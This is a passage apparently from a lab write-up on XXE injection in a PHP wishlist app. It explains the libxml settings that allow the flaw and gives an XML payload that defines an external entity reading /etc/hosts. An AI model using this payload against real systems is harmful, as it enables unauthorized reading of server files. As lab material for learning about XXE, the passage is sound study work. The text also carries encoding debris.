 ### **Preparing the Payload**
----
When a user sends specially craftedÂ XMLÂ data to the application, the lineÂ `libxml_disable_entity_loader(false)`Â allows theÂ XMLÂ parser to load external entities. This means theÂ XMLÂ input can include external file references or requests to remote servers. When theÂ XMLÂ is processed byÂ `simplexml_load_string`Â with theÂ `LIBXML_NOENT`Â option, the web app resolves external entities, allowing attackers access to sensitive files or allowing them to make unintended requests from the server.

What if we update theÂ XMLÂ request to include references for external entities? We will use the followingÂ XMLÂ instead of the aboveÂ XML:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/etc/hosts"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>
```



![Pasted image 20241205132404.png](../../IMAGES/Pasted%20image%2020241205132404.png)

After we send the request, this was the response:

![Pasted image 20241205132451.png](../../IMAGES/Pasted%20image%2020241205132451.png)
